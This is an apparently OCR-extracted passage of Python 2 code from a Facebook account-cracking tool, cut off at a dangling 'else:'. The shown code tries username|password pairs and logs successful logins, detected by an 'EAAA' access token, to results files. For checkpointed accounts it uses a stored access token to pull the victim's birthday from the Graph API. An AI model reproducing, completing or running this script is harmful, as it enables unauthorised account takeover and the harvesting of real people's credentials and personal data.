                 sys.stdout.flush()

                loop +=1

                self.__api__()

            if 'access_token' in response.text and 'EAAA' in response.text:

                print '\r  %s* --> %s|%s                 %s' % (H,user,pw,N)

                wrt = ' [✓] %s|%s' % (user,pw)

                ok.append(wrt)

                open('results/OK-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)

                break

            elif 'www.facebook.com' in response.json()['error_msg']:

                try:

                    kontol = open('.memek.txt').read()

                    cp_ttl = requests.get('https://graph.facebook.com/%s?fields=birthday&access_token=%s'%(user,kontol)).json()['birthday']

                    month, day, year = cp_ttl.split('/')

                    month = bulan_ttl[month]

                    print '\r  %s* --> %s|%s|%s %s %s     %s' % (K,user,pw,day,month,year,N)

                    wrt = ' [×] %s|%s|%s %s %s' % (user,pw,day,month,year)

                    cp.append(wrt)

                    open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)

                    break

                except (KeyError, IOError):

                    month = ''

                    day   = ''

                    year  = ''

                except:

                    pass

                print '\r  %s* --> %s|%s                %s' % (K,user,pw,N)

                wrt = ' [×] %s|%s' % (user,pw)

                cp.append(wrt)

                open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)

                break

            else:
